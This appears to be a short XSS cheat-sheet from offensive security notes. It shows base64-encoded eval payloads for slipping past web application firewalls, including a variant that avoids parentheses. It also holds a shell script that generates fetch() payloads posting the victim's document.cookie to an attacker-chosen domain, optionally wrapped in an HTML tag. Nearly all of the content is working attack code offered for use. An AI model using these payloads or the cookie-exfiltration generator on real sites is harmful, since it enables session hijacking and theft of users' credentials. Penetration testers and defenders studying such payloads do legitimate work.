 # XSS

eval(atob(b64\_payload)) can help with using base64 to bypass WAFs in JS code context

````javascript
//eval("String" + <USER_INPUT>)
eval(atob('YWxlcnQoMSk='))
// Note above would be nested as:
eval("String" + eval(atob('YWxlcnQoMSk='))

//Avoid Parentheses 
Function`x${'eval\x28atob\x28\x27YWxlcnQoMSk=\x27\x29\x29'}x```
````

Script for generating fetch commands

```bash
#!/bin/sh

if [ $# -lt 1 ];
then
        echo "$0 target_domain html_tag";

elif [ $# -eq 1 ];
then
        target_domain=$1

cat << EOF
fetch('//$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
EOF

else
        target_domain=$1
        tag=$2

cat << EOF
<$tag>
fetch('//$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
</$tag>
EOF
fi


```
